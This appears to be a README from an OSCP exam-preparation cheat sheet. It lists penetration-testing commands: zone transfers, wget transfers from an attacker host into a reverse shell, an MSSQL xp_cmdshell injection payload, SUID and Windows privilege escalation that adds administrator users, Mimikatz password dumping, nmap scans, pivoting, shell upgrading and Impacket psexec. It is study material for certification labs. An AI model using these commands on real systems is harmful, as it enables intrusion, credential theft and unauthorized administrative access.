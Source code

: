 # JustTryHarder
Just Try Harder and pass the OSCP!



Active Directory & Domain Controllers
----------------
- http://web.archive.org/web/20141004091538/http://www.slaughterjames.com/blog/2012/10/23/hacking-a-domain-controller-part-1-enumeration.html

- http://web.archive.org/web/20160417135414/http://www.slaughterjames.com/blog/2012/10/30/hacking-a-domain-controller-part-2-easy-pwnage.html

DNS - Zone Transfers
----------------
host -t axfr test.local 10.10.10.10

host -l test.local 10.10.10.10

File Transfers
----------------
Wget Transfer
How to retrieve file(s) from host (inside a reverse shell)

	1. Place file you want transferred in /var/www/html/
	2. # service apache2 start
	3. # wget http://10.10.10/pspy64 <- for single file
  	4. # wget -r http://10.10.10.10/pspy64/ <- for folder

MSSQL
----------------
- EXEC master..xp_cmdshell 'whoami';
- meh' exec master..xp_cmdshell 'whoami' --

Priv Esc - Linux
----------------
- grep -Ri 'password' .
- find / -perm –4000 2>/dev/null
- find / -user root -perm -4000 -exec ls -ldb {} \;

Priv Esc - Windows
----------------
 - c:\Inetpub>churrasco -d "net user /add <username> <password>"
 - c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
 - c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

Post Exploitation
----------------
Mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

Port Scanning
----------------
reconnoitre -t 10.10.10.10 -o . --services --quick --hostnames

nmap -sT -sU -p- --min-rate 10000
nmap -sT -sU -p <open ports seperated by ,'s> -A
obviously drop -sU if no UDP ports are open
- TCP
nmap -p- -iL ips.txt > AllTCPPorts.txt 
 
- UDP (can take hours so maybe netstat is a better alternative)
nmap -p- -sU -iL ips.txt > udp.txt 
nmap -sU -sV -iL ips.txt > alludpports.txt 
 
- SNMP
nmap -p161 -sU -iL ips.txt > udp.txt  (cmd could be wrong, double check)
 
- SSH
nmap --script ssh2-enum-algos -iL ips.txt > SSH.txt 
 
- SSL
nmap -v -v  --script ssl-cert,ssl-enum-ciphers,ssl-heartbleed,ssl-poodle,sslv2 -iL ips.txt > SSLScan.txt 

Pivoting
----------------
sshuttle -r user@10.10.10.10 10.1.1.0/24

Shell Upgrading
----------------
- In reverse shell

1. python -c 'import pty; pty.spawn("/bin/bash")'
2. Ctrl-Z

- In Kali

3. stty raw -echo
4. fg

- In reverse shell
5. reset (sometimes optional)
6. export SHELL=bash
7. export TERM=xterm-256color
8. stty rows <num> columns <cols> (optional)

Show listening ports
----------------
Linux netstat syntax
$ netstat -tulpn | grep LISTEN

FreeBSD/MacOS X netstat syntax
$ netstat -anp tcp | grep LISTEN
$ netstat -anp udp | grep LISTEN

OpenBSD netstat syntax
$ netstat -na -f inet | grep LISTEN
$ netstat -nat | grep LISTEN

Option #3: nmap command
The syntax is:
$ sudo nmap -sT -O localhost
$ sudo nmap -sU -O 192.168.2.13 ##[ list open UDP ports ]##
$ sudo nmap -sT -O 192.168.2.13 ##[ list open TCP ports ]##

SMB - Impacket
----------------
- Impacket's PSEXEC
/usr/share/doc/python-impacket/examples/psexec.py user@10.10.10.10

Password: (password)
[*] Trying protocol 445/SMB...

- Impacket's SMBServer
cd /usr/share/windows-binaries
python /usr/share/doc/python-impacket/examples/smbserver.py a .


